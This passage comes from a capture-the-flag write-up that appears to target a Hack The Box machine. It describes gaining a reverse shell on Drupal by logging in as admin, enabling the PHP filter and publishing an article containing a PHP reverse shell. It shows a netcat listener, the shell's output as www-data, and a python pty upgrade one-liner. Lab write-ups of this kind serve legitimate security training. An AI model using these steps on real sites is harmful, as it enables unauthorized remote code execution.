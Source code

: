 It looks like we've found credentials for a certain portal.


### Drupal Reverse Shell Upload

Drupal is an Open-Source Content Management System.

Browsing to [http://10.10.10.102:80](http://10.10.10.102:80), we are facing a login page.

![Drupal login]({{ "/assets/2018-12-01/drupal-login.png" | absolute_url }} "Drupal login")

Trying a couple common usernames, we quickly found out that **"admin"** was the right one to combine with the password we just deciphered.

Once logged in, all we have to do is to <span style="color:Red">enable phpfilters</span> and to <span style="color:Red">create a new article with our php reverse shell payload inside.</span> I'll detail all these steps right below.

First of all, we have to <span style="color:DarkOrchid">setup a local listener</span> for our reverse shell:
```bash
$ nc -lvnp 9999
listening on [any] 9999 ...
```

Now, we have to <span style="color:Red">enable phpfilters in order to be able to execute PHP code inside articles.</span> Once logged in as admin, go to **Configuration > Content Authoring > Text formats** and tick **"PHP Evaluator"**.

![Drupal phpfilter]({{ "/assets/2018-12-01/drupal-phpfilter.png" | absolute_url }} "Drupal phpfilter")


Then, we can add a new article and place our **PHP reverse shell payload** inside.

![Drupal add article]({{ "/assets/2018-12-01/drupal-add-article.png" | absolute_url }} "Drupal add article")

Also, don't forget to <span style="color:Red">set the text format of the article to "PHP Code"</span> at the bottom the page:

![Drupal textformat]({{ "/assets/2018-12-01/drupal-textformat.png" | absolute_url }} "Drupal text-format")

The reverse shell should be coming back to our machine now:
```bash
$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.14.20] from (UNKNOWN) [10.10.10.102] 38992
/bin/sh: 0: can t access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Very nice! Being connected as **www-data** is not enough for the user flag unfortunately. <span style="color:MediumSlateBlue">We must find a way to connect as a real user!</span>

### Stored credentials retrieval

First, let's <span style="color:Green">upgrade this horrible shell to a bash</span>:
```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@hawk:/var/www/html$
```
